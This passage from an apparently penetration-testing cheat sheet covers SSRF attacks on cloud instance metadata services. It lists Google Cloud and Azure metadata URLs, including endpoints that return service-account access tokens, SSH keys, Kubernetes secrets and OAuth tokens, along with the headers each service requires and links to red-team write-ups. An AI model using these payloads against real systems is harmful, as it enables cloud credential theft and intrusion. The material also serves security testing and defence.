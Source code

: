 References:
- [Escalating SSRF to RCE: Retrieving AWS metadata and use it for RCE](https://sanderwind.medium.com/escalating-ssrf-to-rce-7c0147371c40)
- [Privilege Escalation in AWS Elastic Kubernetes Service (EKS) by compromising the instance role of worker nodes](https://blog.christophetd.fr/privilege-escalation-in-aws-elastic-kubernetes-service-eks-by-compromising-the-instance-role-of-worker-nodes/)

## Google Cloud

{% raw %} {% embed url="https://cloud.google.com/compute/docs/metadata" %} {% endraw %}

{% raw %} {% hint style="info" %} {% endraw %}
Requires the header `Metadata-Flavor: Google` or `X-Google-Metadata-Request: True` on API v1
v1beta1 server and v0.1 metadata server endpoints were deprecated on September 30, 2020
{% raw %} {% endhint %} {% endraw %}

```http
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
# Google allows recursive pulls 
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
http://metadata.google.internal/computeMetadata/v1/instance/attributes/?recursive=true&alt=json
# SSH public keys
http://metadata.google.internal/computeMetadata/v1/project/attributes/ssh-keys?alt=json
# Access token
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
# Kubernetes keys
http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env?alt=json
```

References:
- [Gitlab Red Team: GCP post exploitation](https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/red-team-tech-notes/-/blob/master/gcp-post-exploitation-feb-2020/README.md)
- [Shopify: SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Gitlab: SSRF in CI after first run](https://hackerone.com/reports/369451)

## Microsoft Azure

{% raw %} {% embed url="https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service" %} {% endraw %}

{% raw %} {% hint style="info" %} {% endraw %}
Requires the header `Metadata: true`
{% raw %} {% endhint %} {% endraw %}

```http
http://169.254.169.254/metadata/instance
http://169.254.169.254/metadata/instance?api-version=2018-10-01
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2018-10-01&format=text
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
```
